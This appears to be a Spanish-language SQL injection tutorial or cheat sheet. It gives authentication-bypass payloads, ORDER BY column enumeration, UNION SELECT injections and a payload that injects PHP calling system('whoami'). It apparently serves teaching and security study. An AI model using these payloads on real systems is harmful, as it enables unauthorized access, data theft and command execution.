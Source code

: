 ### Autenticación débil basada en SQL:
- Formulario de inicio de sesión (username - passwd) donde la inyección intenta **eludir la autenticación.**
```sql
SELECT * FROM users WHERE username='' AND passwd=''
1. username='admin' or 1=1-- - AND passwd='admin'
2. username='admin' or 1=1#
3. user='admin' -- || user='admin'-- -
```
<p align="center">
  <img src="https://i.postimg.cc/Fs1s7nJQ/sql-ejemplo-bool.png" alt="sql"/>
</p>
#### Determina el número de columnas devueltas por la consulta
- Aprovechando el manejo de error en la respuesta para saber el total de columnas.
```sql
SELECT password,email FROM users WHERE username='pepe'' order by 2-- -
1. username order by 2-- -
2. username order by 3-- -//Devuelve error ya que al comienzo solo se seleccionan 2
```
<p align="center">
  <img src="https://i.postimg.cc/Z5MNWdqw/sql-ejemplo-error-ORDER-BY.png" alt="sql"/>
</p>
**Error ORDER BY**
<p align="center">
  <img src="https://i.postimg.cc/pL3FQXxF/ERROR-sql.png" alt="sql"/>
</p>

- Combinar del 1 hasta el total de columnas de la tabla con UNION SELECT
```sql
SELECT password,email FROM users WHERE username='pepe' union select 1,2-- -
SELECT password,email FROM users WHERE username='pepe' union select NULL,NULL-- -
//Este último va en la URL
```
+ Mostrar una posible inyección de código PHP
```sql
SELECT password,email FROM users WHERE id=1 UNION SELECT "<?php system('whoami'); ?>",user();-- -;
```
<p align="center">
  <img src="https://i.postimg.cc/Z5KPBmx5/sql-inyeccion-code-y-dbuser.png" alt="sql"/>
</p>
- Mas ejemplos con el uso de UNION SELECT '',''-- -
<p align="center">
  <img src="https://i.postimg.cc/6qxB0qpy/mas-ejemplos-con-UNION.png" alt="sql"/>
</p>
